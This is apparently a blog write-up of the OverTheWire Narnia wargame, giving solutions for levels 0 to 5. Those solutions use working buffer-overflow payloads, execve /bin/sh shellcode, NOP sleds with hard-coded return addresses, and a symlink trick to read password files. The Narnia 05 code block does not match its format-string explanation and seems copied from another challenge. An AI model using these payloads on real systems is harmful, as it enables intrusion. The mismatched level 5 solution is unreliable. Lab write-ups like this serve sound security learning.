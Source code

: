 ```yaml
---
title: "Narnia CTF"
excerpt_separator: "<!--more-->"
categories:
  - CTF
---
```


![center-aligned-image](https://cdn.pixabay.com/photo/2019/04/06/05/17/wallpaper-4106667_1280.jpg){: .align-center}

CTF by **OverTheWire** @ [https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)
{: .notice--info}

As per the official description: this wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it. 

<!--more-->

| Content: | 
|-|-|-|-|
| [Install](#install) | [Narnia 00](#narnia-00) | [Narnia 04](#narnia-04) | 
|-|-|-|-|
| | [Narnia 01](#narnia-01) | [Narnia 05](#narnia-05) | 
|-|-|-|-|
| | [Narnia 02](#narnia-02) | [Narnia 06](#narnia-06) |
|-|-|-|-|
| | [Narnia 03](#narnia-03) | [Narnia 07](#narnia-07) |
|-|-|-|-|


# Capture the Flag

### [Install]
All the challenges can be accessed with ssh. The syntax is the following: \
`ssh narniaX@narnia.labs.overthewire.org -p 2226` \
All the flags are in `/etc/narnia_pass/`, so those are the files we should aim to read in each level. Obviously, we need to gain the right permissions first. \
For each challenge there is executable files and the corresponding sources in the `/narnia/` folder.
In the machine there are a couple of tools already installed, in particular PEDA: this is a gdb extension that shows registers, assembly and stack automatically, reducing a lot of the usual pain when using gdb. To start it, run gdb as usual and then source to the peda.py file:

```bash
gdb --args filetoinspect param1 param2
> source /usr/local/peda/peda.py
```

### [Narnia 00]
`ssh narnia0@narnia.labs.overthewire.org -p 2226` \
Password: narnia0

This challenge is the simplest possible example of buffer overflow: we have a variable and a buffer declared just after one other, and if we write in the buffer more data than what it is supposed to hold the system will accept it and just go on and overwrite the memory that is actually assigned to the variable. To see how the memory layout works you can check [InCIDRthreat writeup](https://hackmethod.com/overthewire-narnia-0) for this same challenge. \
We start by passing as input a sequence of unique 4bytes, longer than the allocated buffer space: 'AAAABBBBCCCCDDDDEEEEFFFF'. The program tells us that the value of var is now 0x46464646, which is ASCII hex for FFFF. So now we know that our 0xDEADBEEF should come after exactly 20 characters (the stack has no fancy constructions in place, var and buffer are immediately after one other). We only have to pay attention to the endianness of the bytes that we want. \
One last remark: after getting 0xDEADBEEF the shell closes immediately. To prevent this, we append the cat command to our input. The reason this happens? No idea, and Google tells to use this trick but can't explain why.

```bash
(python -c  "print 'AAAA'*5 + '\xef\xbe\xad\xde'"; cat) | ./narnia0
```

### [Narnia 01]
`ssh narnia1@narnia.labs.overthewire.org -p 2226` \
Looking at the source code, it seems that the program tries to execute what we set as the environment variable `EGG`. Therefore we set is using `export EGG=....`. \
If we try to set the variable as a usual command, like `whoami`, we get a segfault, meaning that we tried to read or write at an illegal address in memory. What happens is that the program tries to actually execute what we stored in EGG, instead of calling that as a method. \
Therefore we need to put actual machine code instructions in the EGG variable: we aim to run shellcode, so that we will get a shell back and we will afterwards be able to run whatever we want. We can find a working shellcode in many websites, like shell-storm.org

```bash
export EGG=$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
./narnia1
cat /etc/narnia_pass/narnia2
```

### [Narnia 02]
`ssh narnia2@narnia.labs.overthewire.org -p 2226` \
This time we have to overwrite the return address stored in the instruction pointer to be able to access the shell code that we put in the buffer. \
First of all, we need to know exactly how many bytes we have to write in the buffer so that our overflow will end up exactly rewriting the $eip. To do this automagically, [jason-rush wrote a nice EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/): what the tool does is create a long string made of unique 4bytes elements. We have to pass the string in our target buffer (use gdb to see the info that we need), and if it's long enough it will generate a segfault. \
Gdb shows us the faulty $eip that we tried to access, and we just have to copy that value back in the tool to get how many bytes we have to write in the buffer to control the value of the $eip itself. In my case, to overwrite the $eip I have to provide 136 bytes. \
Our target payload has the following structure: `'\x90' * x + shellcode + return address`. The `\x90` corresponds to the nop instruction, and the x is the length of the overflow (136) minus the length of the shellcode (28) minus the length of the return address (4). The result is a nop sled of 104 bytes: our return address should aim to land somewhere within this sled, so that we don't have to be super precise trying to write the exact starting address of the shellcode in the return address, instead we will just slide down to it from wherever we land. \
However, we still have to find out where the nop sled will be. To do this, we craft our payload with the proper data and a bogus return address: after running it (in gdb) and ending up in a segfault, we look in the stack with `x/250x $esp` and search for the sequence of `0x90909090`. As our return address we pick a location that is somewhere in the middle of the sequence, 0xFFFFD760 in my case.
Now we exit gdb and build the proper payload (remember endianness): `'\x90' * 104 + shellcode + '\x60\xD7\xFF\xFF'`. Run narnia2 with this parameter, and enjoy the flag.

```bash
./narnia2 $(python -c "print '\x90' * 104 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x60\xd7\xff\xff'")
cat /etc/narnia_pass/narnia3
```

### [Narnia 03]
`ssh narnia3@narnia.labs.overthewire.org -p 2226` \
This challenge is again a simple buffer overflow, but instead of overwriting the return address we aim to overwrite the output file: we want to be able to give the password file as input and have it printed at our own location instead that piped into /dev/null. \
We can see that by giving an input file longer than 32 bytes, the program complains that it can't open the output file with a name corresponding to the leftover bytes that we passed. From here the idea: the name of the input will contain the name of the output, from byte 33 onwards. \
We work in the /tmp folder, and start by creating a subfolder so that the length of the path will be exactly 32 bits: `/tmp/AAABBBCCCDDDEEEFFFGGGHHHIII` has the desired length. What follows will be part of the input parameter but also of the output file: that's the reason we create another subfolder called tmp, which will be read as /tmp for the output buffer. \
Then, we have to find a way to pass our target file, and we can do that by creating a symlink to it. The last step is to create an empty file with the same name of the symlink in the /tmp folder, and to give the proper permissions to it. \
The resulting `/tmp/AAABBBCCCDDDEEEFFFGGGHHHIII/tmp/olaola` is our input path, and the second part of it `/tmp/olaola` will overwrite the output.

```bash
mkdir /tmp/AAABBBCCCDDDEEEFFFGGGHHHIII
mkdir /tmp/AAABBBCCCDDDEEEFFFGGGHHHIII/tmp
ln -s /etc/narnia_pass/narnia4 /tmp/AAABBBCCCDDDEEEFFFGGGHHHIII/tmp/olaola
touch /tmp/olaola
chmod 777 /tmp/olaola
./narnia3 /tmp/AAABBBCCCDDDEEEFFFGGGHHHIII/tmp/olaola
cat /tmp/olaola
```

### [Narnia 04]
`ssh narnia4@narnia.labs.overthewire.org -p 2226` \
This challenge is exactly the same as the level number 2. What we have to do is to find out how many bytes we need to send to take over the $eip, and then to check where we want our return address to point. \
After trying a few different lengths on gdb, for me the $eip overflow happens with 236 bytes. This means that we need 236 - 28 (shellcode) - 4 (return address) = 236 nop operations at the start of our payload. \
Running the payload with a bogus return address, we can check that when the segfault happens a good place to aim in the middle of the nop sled is 0xFFFFD6F0. This completes the construction of the payload.

```bash
./narnia4 $(python -c "print '\x90' * 236 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\xf0\xd6\xff\xff'")
cat /etc/narnia_pass/narnia5
```

### [Narnia 05]
`ssh narnia5@narnia.labs.overthewire.org -p 2226` \
First thing to say in this challenge is that we are really constrained to the declared 64 bytes of the buffer: the method used to read it is safe in that sense. However, we can pass the string formatting characters that will control a printf-like method. \
The `printf` can be exploited by convincing it to read or write for us stack values. This is possible because as soon as printf encounters a %x, %d or similar char it will pop data from the stack, blindly assuming that the corresponding values have been pushed into it beforehand. \
In our case no value has been pushed, so we access the stack directly. Using %n we can even write into the stack, as the popped value is treated as an address where to write the number of bytes written until that moment.

```bash
ls -lah
cd inhere
find . -print -ls | grep 1033
cat ./maybehere07/.file2
```

### [Narnia 06]
### [Narnia 07]
### [Narnia 08]
Aaaaaand this is where I got stuck. Too bad... overflows can get hard real quick, and we didn't even start looking into heap exploitation!